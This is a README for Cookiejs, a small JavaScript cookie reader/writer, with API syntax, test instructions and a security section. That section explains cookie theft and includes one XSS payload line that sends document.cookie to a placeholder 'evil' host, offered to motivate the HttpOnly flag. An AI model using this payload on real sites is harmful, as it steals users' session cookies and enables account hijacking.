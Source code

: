 
# Cookiejs

A complete cookies reader/writer framework with full unicode support in under 1 kB.

## Credits

It's taken entirely from the [Mozilla Developer Network](https://developer.mozilla.org/en-US/docs/Web/API/document.cookie#A_little_framework.3A_a_complete_cookies_reader.2Fwriter_with_full_unicode_support).

## Syntax

### Setting a cookie
    Cookies.set(name, value[, end[, path[, domain[, secure]]]]);

### Getting a cookie value
    var value = Cookies.get(name);

### Removing a cookie
    Cookies.remove(name[, path], domain);

### Checking if cookie exists
    var has = Cookies.has(name);

### Getting a list of all cookies
    var keys = Cookies.keys();

## Security

It is important to note that the path restriction does not protect against unauthorized reading of the cookie from
a different path. It can easily be bypassed with simple DOM (for example by creating a hidden iframe element with
the path of the cookie, then accessing this iframe's contentDocument.cookie property). The only way to protect cookie
access is by using a different domain or subdomain, due to the same origin policy.

Cookies are often used in web application to identify a user and their authenticated session. So stealing cookie
from a web application, will lead to hijacking the authenticated user's session. Common ways to steal cookies include
using Social Engineering or by exploiting an XSS vulnerability in the application:

    (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

The HTTPOnly cookie attribute can help to mitigate this attack by preventing access to cookie value through
Javascript. Read more about [Cookies and Security](http://www.nczonline.net/blog/2009/05/12/cookies-and-security/).

## Tests

Tests are set up in the `tests` directory and use the [Jasmine](https://jasmine.github.io/2.0/introduction.html) test runner.

The project uses [GulpJS](//gulpjs.org) for the entire workflow. So make sure that you update the NPM requirements:

    npm update
    
Then to make changes and test use the default gulp task:

    gulp
    
This task watches the project directories and runs a static server with livereload to watch the changes and run
tests on every change.

## Roadmap

Not much is planned. It does what it needs to. Feel free to submit issues or pull requests if you have any ideas.
